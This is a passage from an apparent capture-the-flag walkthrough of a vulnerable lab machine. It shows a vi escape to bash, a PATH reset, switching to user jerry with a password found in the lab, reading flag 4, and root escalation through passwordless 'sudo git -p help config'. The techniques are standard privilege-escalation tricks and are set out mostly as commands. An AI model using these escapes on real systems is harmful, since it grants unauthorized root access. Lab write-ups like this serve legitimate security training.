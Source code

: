 ```shellscript
vi
# In vi, type:
:!/bin/bash
```

This provided access to a full bash shell.

### PATH Manipulation

I updated the PATH variable to access system binaries:

```shellscript
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```

## Privilege Escalation

### User Switching

Following the hint from Flag 3, I switched to user jerry:

```shellscript
su jerry
# Password: adipiscing
```

### Flag 4 Discovery

I found Flag 4 in jerry's home directory:

```shellscript
file_contents=$(< /home/jerry/flag4.txt)
echo $file_contents
```

**Flag 4:** "Good to see that you've made it this far - but you're not home yet. You still need to get the final flag (the only flag that really counts!!!). No hints here - you're on your own now. :-) Go on - git outta here!!!!"

### Sudo Privileges Check

I checked jerry's sudo privileges:

```shellscript
sudo -l
```

**Result:** User jerry can run `/usr/bin/git` as root without a password.

### Git Privilege Escalation

I exploited the git sudo permission to gain root access:

```shellscript
sudo git -p help config
```

